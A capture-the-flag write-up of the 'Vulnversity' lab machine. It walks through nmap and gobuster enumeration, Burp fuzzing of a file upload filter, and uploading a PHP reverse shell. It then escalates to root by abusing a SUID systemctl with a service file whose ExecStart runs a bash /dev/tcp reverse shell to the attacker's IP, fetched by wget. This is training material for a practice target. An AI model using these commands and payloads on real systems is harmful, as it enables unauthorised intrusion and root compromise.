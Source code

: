 # Vulnversity


## ``Nmap Scan``

```
nmap -sCV 10.10.202.4
```

``output``

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-12 10:18 EDT
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 71.55% done; ETC: 10:18 (0:00:01 remaining)
Nmap scan report for 10.10.202.4
Host is up (0.091s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-06-12T14:18:57
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2025-06-12T10:18:57-04:00
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.44 seconds
```

---

```
http://10.10.202.4:3333/
```

![image](https://github.com/user-attachments/assets/0bdd6988-cc9b-4f78-b8ad-6f75b093bb2f)



## ``Gobuster``

```
gobuster dir -u http://10.10.202.4:3333/ -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt
```

`output`

![image](https://github.com/user-attachments/assets/80734d4a-821a-4b72-a498-d2e14c8ba6f2)

---

```
http://10.10.202.4:3333/internal/
```

![image](https://github.com/user-attachments/assets/7d2b5bff-8c89-4536-a0b3-57c3bed9cde6)

>[!note]
> We will fuzz the upload form to identify which extensions are not blocked.


## ``USING BurpSuite``

try to upload normal file

![image](https://github.com/user-attachments/assets/58459427-9045-46f1-9975-250efa1a48dd)

We're going to use Intruder (used for automating customised attacks). To begin, make a wordlist with the following extensions:

* .php
* .php3
* .php4
* .php5
* .phtml


![image](https://github.com/user-attachments/assets/c60fd6a3-e8e2-47ff-8060-5d7a6c2ff35c)


![image](https://github.com/user-attachments/assets/bf00202c-e8c6-4ecb-9acb-46ff039f590b)

Idenified file extension as ``.phtml`` .

You can download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

![image](https://github.com/user-attachments/assets/f557bf3d-6c29-4100-8180-259281e36d9d)

>[!warning]
>Don't forget to change ``ip`` to your ``tun0`` ip and set port as you want 

now listen on ``4444``

````
nc -lvnp 4444
````

![image](https://github.com/user-attachments/assets/9c9c64bf-5f7e-4d59-b16b-2a06e1a84b9d)

and upload ``shell.phtml``

![image](https://github.com/user-attachments/assets/cab9dbfa-3255-45d1-9e93-6d2ff6c44442)

aftre Upload your shell navigate to ``http://10.10.202.4:3333/internal/uploads/php-reverse-shell.phtml`` - This will execute your payload.



![image](https://github.com/user-attachments/assets/4cb18dea-fe12-427f-937a-c5e6b0b881e8)



![image](https://github.com/user-attachments/assets/4fbce078-6185-4101-abb7-6385945b12da)


## ``Privilege Escalation``


search for all SUID files

```
find / -user root -perm -4000 -exec ls -ldb {} \;
```

``output``


```bash
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl          <<--------⚠️
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
```

```bash
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
```

Researched for an ``/bin/systemctl`` SUID on  **[gtfobins](https://gtfobins.github.io/gtfobins/systemctl/)**

![image](https://github.com/user-attachments/assets/0e0b1a3a-ba85-4cdf-85ac-565fc35fcf8a)

now we will create service with reverseshell to root

```
nano root.service
```

```
[unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.47.102/5555 0>&1'

[Install]
WantedBy=multi-user.target
```




Since the victim machine can’t use the nano command, We’ll need create the root.service on our machine and transfer the file by setting up our web server.

```
python3 -m http.server 80
```

```
cd /tmp

wget http://10.8.47.102:7777/root.service
```


```
systemctl enable /tmp/root.service
systemctl start /tmp/root.service
```

![image](https://github.com/user-attachments/assets/fbd9eee1-8e55-46ae-8bc4-e9eacd985ae2)




